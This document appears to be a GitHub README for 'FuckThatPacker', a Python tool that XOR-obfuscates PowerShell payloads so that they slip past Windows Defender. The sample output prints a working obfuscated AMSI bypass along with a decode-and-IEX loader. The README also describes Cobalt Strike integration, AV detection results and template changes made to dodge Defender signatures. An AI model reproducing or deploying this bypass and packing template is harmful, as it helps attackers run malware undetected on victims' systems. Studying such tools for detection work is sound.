 # FuckThatPacker
A simple python packer to easily bypass Windows Defender

# Basic usage

```
# python FuckThatPacker.py --help

  ___        _   _____ _         _   ___         _           
 | __|  _ __| |_|_   _| |_  __ _| |_| _ \__ _ __| |_____ _ _ 
 | _| || / _| / / | | | ' \/ _` |  _|  _/ _` / _| / / -_) '_|
 |_| \_,_\__|_\_\ |_| |_||_\__,_|\__|_| \__,_\__|_\_\___|_|  
                                                          
                                                                      
Written with <3 by Unknow101/inf0sec
v1.0


usage: FuckThatPacker.py [-h] -k KEY -p PAYLOAD [-o OUTPUT]

optional arguments:
  -h, --help            show this help message and exit
  -k KEY, --key KEY     integer key use of XOR operation
  -p PAYLOAD, --payload PAYLOAD
                        path of the payload to pack
  -o OUTPUT, --output OUTPUT
                        output payload into file
```

# Exemple

Basic generation of xor payload :

```
# python FuckThatPacker.py -k 32 -p /root/payload.ps1

  ___        _   _____ _         _   ___         _           
 | __|  _ __| |_|_   _| |_  __ _| |_| _ \__ _ __| |_____ _ _ 
 | _| || / _| / / | | | ' \/ _` |  _|  _/ _` / _| / / -_) '_|
 |_| \_,_\__|_\_\ |_| |_||_\__,_|\__|_| \__,_\__|_\_\___|_|  
                                                          
                                                                      
Written with <3 by Unknow101/inf0sec
v1.0


[+] Encode UTF16-LE
[+] Cyphering Payload ...
[+] Base64 Payload
[+] Writting into Template
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType(("{5}{2}{0}{1}{3}{6}{4}" -f 'ut',('oma'+'t'+'ion.'),'.A',('Ams'+'iUt'),'ls',('S'+'ystem.'+'Manage'+'men'+'t'),'i')).GetField(("{1}{2}{0}" -f ('Co'+'n'+'text'),('am'+'s'),'i'),[Reflection.BindingFlags]("{4}{2}{3}{0}{1}" -f('b'+'lic,Sta'+'ti'),'c','P','u',('N'+'on'))).GetValue($null),0x41414141)
$a = "395zIEUgVCANIHMgVCBS[...]iBdICog"
$b = [System.Convert]::FromBase64String($a)
for ($x = 0; $x -lt $b.Count; $x++) {
                $b[$x] = $b[$x] -bxor 32
        }
IEX ([System.Text.Encoding]::Unicode.GetString($b))
```

# CobaltStrike Integration

17/03/2022 : FuckThatPacker is now integrated to CobaltStrike !

## Setup

At this time, FuckThatPacker should be installed in /opt/Tools/FuckThatPacker (or you can manualy edit the aggressor script).
After this, you have to load the CNA script into cobalt strike (help : https://trial.cobaltstrike.com/aggressor-script/index.html)
You should have a new label under the attacks menu :

![New lavel](https://i.ibb.co/8Xzhb0V/Screenshot-1.png)

Then, you have to specify the listener, the key and the output :

![Menu](https://i.ibb.co/x3ywKnS/Screenshot-3.png)

The payload will be generated and packed :

![Packed payload](https://i.ibb.co/dG0SBr4/Screenshot-4.png)



# AV Results

![AV detection](https://i.ibb.co/fdQJD4Y/Screenshot-1.png)

# Patch Notes

13/11/2020 : Modifying template.txt for Defender signature :D
